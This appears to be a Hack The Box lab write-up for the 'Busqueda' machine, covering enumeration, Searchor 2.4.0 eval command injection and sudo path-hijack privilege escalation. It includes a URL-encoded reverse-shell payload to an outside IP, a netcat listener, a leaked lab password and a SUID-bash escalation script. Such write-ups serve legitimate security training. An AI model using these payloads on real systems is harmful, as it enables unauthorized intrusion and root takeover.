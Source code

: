 ```yaml
---
layout: post
title: Busqueda
description: Busqueda is an Easy Difficulty Linux machine that involves exploiting a command injection vulnerability present in a `Python` module.
categories: [writeups]
tags: [HTB, RCE, Cryptographic Failure, SUDO]
image:
  path: /assets/busqueda/Busqueda.png
---
```


## **Summary**

Arbitrary code execution in `Searchor 2.4.0` - a python library handling the search mechanism in the web application - gave us inital access on the machine. Then a password found in a git config file was used to run a script using sudo. This script presented a flow (not using the full path of a script passed as argument) allowing us to escalate our privileges.

## **Enumeration**

### **nmap**

Initial port scan show two open ports, 80 and 22

```sh
$ nmap -sVC -oN nmap/svc.nmap 10.10.11.208
# Nmap 7.93 scan initiated Mon Jun  5 10:36:51 2023
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
# Nmap done at Mon Jun  5 10:37:23 2023 -- 1 IP address (1 host up) scanned in 31.56 seconds
```

### **http - port 80**

The home page conatains a shearch form.

![](/assets/busqueda/001.png)

We intercepted the post request to `/search` endpoint and noticed that the `engine` parameter is used to find the service we want to search in, and the other parameter `query` is used as the search query.

![](/assets/busqueda/002.png)

The Page footer reveales the python library behind this searching mechanism wich is `searchor 2.4.0`.

![](/assets/busqueda/003.png)

`Searchor 2.4.0` is vulnerable to an [Arbitrary Code Execution](https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303) due to unsafe implementation of eval method.

> Vulnerable code:
>
> ``` python
> url = eval(
>    f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
> )
>```
>
> [source](https://github.com/ArjunSharda/Searchor/blob/v2.4.0/src/searchor/main.py#L33)
{: .prompt-info}

## **Initial access**

To exploit this vulnerability, we started by setting up a listener

```
nc -lnvp 9000
```

Then we used the following line as the `query` parameter, and launched a search request.

```
',+__import__('os').system('bash+-c+\"bash+-i+>%26+/dev/tcp/10.10.14.75/9001+0>%261\"'))%23
```

Finally we got connection back on our listener.

![](/assets/busqueda/005.png)

## **Privilege escalation**

We found a virtual host `gitea` in the default config file of `apache2` web server.

> Gitea is a painless, self-hosted, all-in-one software development service. It includes Git hosting, code review, team collaboration, package registry, and CI/CD. It is similar to GitHub, Bitbucket and GitLab, [Read More](https://docs.gitea.com/)
{: .prompt-info}

```sh
cat /etc/apache2/sites-enabled/000-default.conf
```

![](/assets/busqueda/006.png)

We also found the credentials (`cody:jh1usoih2bkjaspwe92`) used to connect to `gitea`.

```
cat /var/www/app/.git/config
```

![](/assets/busqueda/007.png)

The password we found was reused by our current user (`svc`), which allowed us to run sudo command. As a result we found that the current user can execute a python script
(`/usr/bin/python3 /opt/scripts/system-checkup.py *`) as root using sudo.

![](/assets/busqueda/008.png)

We ran it to see what it does, it tured out it accept one of three arguments:

* docker-ps
* docker-inspect
* full-checkup

![](/assets/busqueda/009.png)

`docker-ps` and `docker-inspect` were not of interest to us as `docker-ps` only lists running containers for example.

![](/assets/busqueda/010.png)

The last action (`full-checkup`) on the other hand was very interesting, when ran without any arguments it threw an error.

![](/assets/busqueda/011.png)

With a little bit of diggin, we found that the `full-checkup` action trigger the execution of a script named `full-checkup.sh`.

The problem here is that the full path is not provided, so whenever we ran `system-checkup.py` it would look for `full-checkup.sh` in the current directory.

To exploit this flow we created a file `full-checkup.sh` with the following content.

```sh
#!/bin/bash

cp /bin/bash /tmp/.hrh
chmod u+s /tmp/.hrh
```

Then we ran

```
/usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Once finished, a file `.hrh` which is a copy of bash with SUID bit set was created in `/tmp` directory, we ran and we got a root shell.

```
./.hrh -p
```

![](/assets/busqueda/013.png)
